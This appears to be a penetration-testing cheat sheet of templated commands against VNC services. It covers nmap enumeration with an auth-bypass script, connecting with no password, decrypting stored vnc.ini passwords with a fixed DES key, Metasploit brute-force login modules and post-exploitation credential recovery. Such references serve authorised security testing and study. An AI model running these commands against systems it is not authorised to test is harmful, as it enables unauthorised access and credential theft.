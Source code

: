 # VNC

% vnc, 5800, 5801, 5900, 5901
#plateform/linux  #target/remote  #protocol/vnc #port/5800 #port/5801 #port/5900 #port/5901

## vnc - nmap enum
#cat/RECON 
```
nmap -sV --script vnc-info,realvnc-auth-bypass,vnc-title -p <port> <ip>
```

## vncviewer - connect to vnc no pass
#cat/ATTACK/CONNECT 
```
vncviewer <ip>::<port>
```

## vncviewer - connect to vnc with password
#cat/ATTACK/CONNECT 
```
vncviewer -password <password.txt> <ip>::<port>
```

## vnc - decrypt vnc.ini password
#cat/UTILS
echo -n <password> | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d | hexdump -Cv

## vnc msf test none auth
#cat/ATTACK/CONNECT 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_none_auth; set RHOSTS <ip>; set RPORT <port>; run"
```

## vnc - msf test login bf
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USERNAME <username>; run"
```

## vnc - msf test login bf (2)
#cat/ATTACK/BRUTEFORCE-SPRAY 
```
msfconsole -x "use auxiliary/scanner/vnc/vnc_login; set RHOSTS <ip>; set RPORT <port>; set USER_FILE <users_file>; set PASS_FILE <pass_file>; run"
```

## vnc - post exploit retrieve credentials
#cat/POSTEXPLOIT/CREDS_RECOVER 
```
msfconsole -x "use post/windows/gather/credentials/vnc; set SESSION <session>; run"
```

